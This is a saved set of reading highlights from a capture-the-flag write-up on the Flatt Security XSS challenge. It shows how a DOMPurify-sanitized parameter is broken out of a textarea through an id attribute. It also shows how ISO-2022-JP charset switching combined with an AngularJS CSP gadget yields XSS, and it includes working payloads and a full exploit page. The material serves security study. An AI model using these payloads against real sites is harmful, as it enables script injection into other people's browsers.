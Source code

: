 ```yaml
---
author: "blig.one"
aliases: "Flatt Security XSS Challenge - Writeup"
tags: RW_inbox, readwise/articles
url: https://blig.one/2024/11/29/flatt-xss-writeup.html
date: 2025-02-04
---
```

# Flatt Security XSS Challenge - Writeup

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/static/images/article0.00998d930354.png)

## Highlights


Server-Side Sanitization by hamayanhamayan [Permalink](https://blig.one/2024/11/29/flatt-xss-writeup.html/#server-side-sanitization-by-hamayanhamayan)
 This was the easiest among all the challenges, yet it teaches a nice quirk to achieve XSS when server-side sanitization is applied.
[View Highlight](https://read.readwise.io/read/01jk8q0swbkbc0vhsgx4p71d5s)



There is some server-side logic where a query parameter is sanitized via my everlasting enemy DOMPurify. Once sanitized, the payload is reflected into the page in two different points.
 <div class="card">
 <h1>Paper Airplane</h1>
 <p class="message"><%- sanitized %></b></p>
 <form method="get" action="">
 <textarea name="message"><%- sanitized %></textarea>
 <p>
 <input type="submit" value="View 👀" formaction="/" />
 </p>
 </form>
 </div>
[View Highlight](https://read.readwise.io/read/01jk8q16ktr13gy1rxfvjpyp2m)



How we can achieve XSS is quite simple. Essentially the sanitization that occurs server side has no context on what will be the context where our payload will be reflected.
 By leveraging this assumption we can carefully create an HTML tag that when injected into the browser breaks the context but will be completely ignored by DOMPurify. How? By using attributes
 <a id='</textarea><img src=a onerror=alert(origin)>'/>
[View Highlight](https://read.readwise.io/read/01jk8q24waa4wyxpqcsej87878)



The content of the `id` attribute will be completely ignored by DOMPurify, but when injected into the page it will break the `textarea` tag
[View Highlight](https://read.readwise.io/read/01jk8q3h0sccc22nvw1kg0y112)



<div class="card"> <h1>Paper Airplane</h1> <p class="message"><a id="</textarea><img src=a onerror=alert(origin)>"></a></p> <form method="get" action=""> <textarea name="message">&lt;ant"></textarea><img src="a" onerror="alert(origin)">"&gt; <p> <input type="submit" value="View 👀" formaction="/"> </p> </form> </div>
[View Highlight](https://read.readwise.io/read/01jk8q49smdfspb42wdhc51dzw)



Charset Shenanigans by kinugawamasato - w/ strellic [Permalink](https://blig.one/2024/11/29/flatt-xss-writeup.html/#charset-shenanigans-by-kinugawamasato---w-strellic)
[View Highlight](https://read.readwise.io/read/01jk8qz82b7b3yxddn02f3v2sx)



The main idea is explained here https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/. In short, it explains how the charset affects how the browser parses the HTML on the page. Moreover it highlights a specific encoding `ISO-2022-JP` which can be leveraged to achieve XSS on pages where the `Content-Type` header has no charset specified.
[View Highlight](https://read.readwise.io/read/01jk8qzp74gtceh3nm99364382)



If you have read the research, you may know that the sequence `\x1b(B` is used to switch the parsing to ASCII. Hence, something like `<style>\x1b(B<\x1b(Bimg</style>` should work. And indeed it works. This payload will be left untouched from DOMPurify since it’s considered safe. Spoiler: it’s not
[View Highlight](https://read.readwise.io/read/01jk8qzydm974v47gsyfy3m9c5)



Now we have all we need. I should point out that there is CSP but is easily bypassable (i’ve used cspbypass.com in order to find the payload)
[View Highlight](https://read.readwise.io/read/01jk8r09ndjha7f80wy2wqe0y8)
> #tools 


<html> <head></head> <body></body> <script> const URL = `https://challenge-kinugawa.quiz.flatt.training/?html=` const back_to_ascii = `\x1b(B` const back_to_jp = `\x1b$B`; const payload = `${back_to_jp} <style> ff${back_to_ascii}<${back_to_ascii}body ng-app ng-csp> ${back_to_ascii}<${back_to_ascii}script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js'>${back_to_ascii}<${back_to_ascii}/script> ${back_to_ascii}<${back_to_ascii}input autofocus ng-focus=$event.composedPath()|orderBy:'[].constructor.from([origin],alert)'> </style>` open(URL+encodeURIComponent(payload),'iframe') </script> </html>
[View Highlight](https://read.readwise.io/read/01jk8r185xc4enk2jvvev6zrmp)

